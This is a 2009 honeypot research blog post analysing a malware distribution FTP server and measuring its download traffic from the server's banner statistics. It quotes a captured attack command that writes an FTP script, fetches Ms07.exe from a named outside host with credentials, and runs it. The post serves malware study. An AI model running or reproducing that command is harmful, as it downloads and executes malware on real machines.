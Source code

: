 ```yaml
---
title: "Iteolih: If you can't touch it ..."
authors: ["Markus Koetter"]
date: "2009-07-21"
tags: 
  - "ftp"
  - "iteolih-d90"
---
```


While playing with the current hsoc code, I got attacked, and saw an offer to download something from somewhere.  
`  
cmd /c echo open v1.usbupdatestrings.at 4356 > i&echo user ik ik >> i &echo binary >> i &echo get Ms07.exe >> i &echo quit >> i &ftp -n -s:i &Ms07.exe  
`  
The offer to download something was not that unexpected, we are working hard to get these offers, so we can grab copies of something, but the location was interesting. Obviously they decided to go for a central service to deploy their malware, and to indicate that level of professionalism on first sight, they use(d) a domain.  
  
To honor their effort, I decided to give them a visit ...  
  
`  
lftp ftp://ik:ik@v1.usbupdatestrings.at:4356  
`  
To allow having a look on the whole traffic, I decided to run lftp in debug mode  
`  
lftp ik@v1.usbupdatestrings.at:~> debug  
`  
And connect the service  
`  
lftp ik@v1.usbupdatestrings.at:~> ls  
---- Connecting to v1.usbupdatestrings.at (79.99.6.123) port 4356  
<--- 220-Serv-U FTP Server v5.0 for WinSock ready...  
<--- 220-.:::::::::::::::::::::::::::::::::::::::::::::::::.  
<--- 220-.::::|  
<--- 220-.::::| o0o-====== pe[ro =======-o0o  
<--- 220-.::::|________________________________________  
<--- 220-.:::::::::::::::::::::::::::::::::::::::::::::::::.  
<--- 220-.::::|  
<--- 220-.::::| o0o-========= USER STATS =========-o0o  
<--- 220-.::::|  
<--- 220-.::::| You are Connecting From 'The great Tor Network'  
<--- 220-.::::| 231352 users have visited in the last 24 hours  
<--- 220-.::::| This server has been running for  
<--- 220-.::::|14 Days, 1 Hours, 0 Mins, 43 Secs  
<--- 220-.::::|  
<--- 220-.::::|Amout of Logins Since Server Started: 1020885 total  
<--- 220-.::::| o0o-======== SERVER STATS ========-o0o  
<--- 220-.::::|  
<--- 220-.::::| Logged in Users: 52  
<--- 220-.::::| Total Kb downloaded: 60855849 Kb  
<--- 220-.::::| Total Kb uploaded: 1132 Kb  
<--- 220-.::::| Amout of Files downloaded: 731839  
<--- 220-.::::| Amout of Files uploaded: 11  
<--- 220-.::::| Average Speed: 50.161 Kb/sec  
<--- 220-.::::| Current Speed: 323.925 Kb/sec  
<--- 220-.::::| Free Disk Space: 92367.79 MB  
<--- 220-.::::|________________________________________  
<--- 220 .:::::::::::::::::::::::::::::::::::::::::::::  
`  
  
_If you can't touch it, you have to count it_, I appreciate the decision to share these numbers with everybody connecting.  
  
Today, I wanted to give them a new shot, fresh numbers, so I could compare the numbers to see if they seem reliable.  
For some reason the domain v1.usbupdatestrings.at is gone already, but the service was still running on the same ip.  
  
`  
<--- 220-.::::| o0o-========= USER STATS =========-o0o  
<--- 220-.::::|  
<--- 220-.::::| You are Connecting From 'The great Tor Network'  
<--- 220-.::::| 169188 users have visited in the last 24 hours  
<--- 220-.::::| This server has been running for  
<--- 220-.::::|14 Days, 21 Hours, 32 Mins, 28 Secs  
<--- 220-.::::|  
<--- 220-.::::|Amout of Logins Since Server Started: 1144533 total  
<--- 220-.::::| o0o-======== SERVER STATS ========-o0o  
<--- 220-.::::|  
<--- 220-.::::| Logged in Users: 7  
<--- 220-.::::| Total Kb downloaded: 66602829 Kb  
<--- 220-.::::| Total Kb uploaded: 1524 Kb  
<--- 220-.::::| Amout of Files downloaded: 804645  
<--- 220-.::::| Amout of Files uploaded: 16  
<--- 220-.::::| Average Speed: 51.746 Kb/sec  
<--- 220-.::::| Current Speed: 45.348 Kb/sec  
<--- 220-.::::| Free Disk Space: 92367.55 MB  
<--- 220-.::::|________________________________________  
<--- 220 .:::::::::::::::::::::::::::::::::::::::::::::  
`  
  
So, within 20hours, their ftp service had:  

  
- Amout of Logins (1144533 - 1020885) = **123648**
  
- Amout of Files downloaded (804645 - 731839) = **72806**
  
- Amout of Files uploaded (16 - 11) = 5
  
- Total Kb downloaded (66602829 - 60855849) = **5746980** (5612 Mbyte)
  

  
  
Getting copies of the malware from the service and submit them to virustotal, to verify if the five malware updates during the last 20 hours were worth the effort, is left as an exercise for the reader.
